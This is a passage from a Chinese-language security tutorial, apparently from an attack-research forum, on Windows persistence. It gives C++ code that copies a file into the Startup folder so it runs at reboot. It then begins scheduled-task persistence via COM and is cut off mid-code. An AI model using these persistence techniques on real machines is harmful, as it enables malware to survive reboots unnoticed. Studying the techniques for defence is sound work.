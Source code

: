 ```c++
DWORD AutoSetup(char* lpszSrcFilePath, char* lpszDestFileName)
{
    CHAR szStartupPath[MAX_PATH] = { 0 };
    CHAR szDestFilePath[MAX_PATH] = { 0 };

    if (FALSE == ::SHGetSpecialFolderPathA(NULL, szStartupPath, CSIDL_STARTUP, TRUE))
    {
        printf("[!] Get szStartupPath failed, error is : %d\n\n", GetLastError());
        return FALSE;
    }
    else
    {
        printf("[*] The szStartupPath is : %s\n\n", szStartupPath);
    }

    ::wsprintfA(szDestFilePath, "%s\\%s", szStartupPath, lpszDestFileName);

    if (FALSE == ::CopyFileA(lpszSrcFilePath, szDestFilePath, FALSE))
    {
        printf("[!] CopyFile failed, error is : %d\n\n", GetLastError());
        return FALSE;
    }
    else
    {
        printf("[*] CopyFile successfully!\n\n");
    }

    return TRUE;
}
```

实现效果如下，可以看到已经被复制到了启动项，重启后即会自动启动

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ca294ad83191cf9ca14cfcfec7e51561b4126f2e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ca294ad83191cf9ca14cfcfec7e51561b4126f2e.png)

计划任务
====

这部分在进行代码实现的过程中会用到COM组件的相关知识，因为知识储备的原因，这里我就不展开细说这部分的具体操作，只能大概说一下实现的流程

使用COM组件之前需要调用`CoInitialize`来初始化COM接口环境，再使用`CoCreateInstance`创建服务对象`ITaskService`并连接到任务服务上，再从`ITaskService`对象中获取根任务`Root Task Folder`的指针对象`ITaskFolder`，指向的是新注册的任务，到这里初始化操作就已经完成，代码实现如下

```c++
CMyTaskSchedule::CMyTaskSchedule(void)
{
    m_lpITS = NULL;
    m_lpRootFolder = NULL;
    // 初始化COM
    HRESULT hr = ::CoInitialize(NULL);
    if (FAILED(hr))
    {
        printf("[!] CoInitialize failed\n\n", hr);
        return FALSE;
    }
    // 创建一个任务服务（Task Service）实例
    hr = ::CoCreateInstance(CLSID_TaskScheduler,
        NULL,
        CLSCTX_INPROC_SERVER,
        IID_ITaskService,
        (LPVOID*)(&m_lpITS));
    if (FAILED(hr))
    {
        printf("[!] CoCreateInstance failed\n\n", hr);
```